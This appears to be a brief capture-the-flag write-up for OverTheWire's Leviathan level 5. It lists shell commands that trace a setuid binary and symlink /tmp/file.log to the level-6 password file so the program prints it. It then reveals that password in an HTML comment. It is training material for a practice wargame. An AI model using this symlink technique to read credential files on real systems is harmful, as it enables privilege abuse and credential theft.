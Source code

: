 ```shell
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
ll
./leviathan5
touch /tmp/file.log
ltrace ./leviathan5
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

The password for the next level is: <!-- szo7HDB88w -->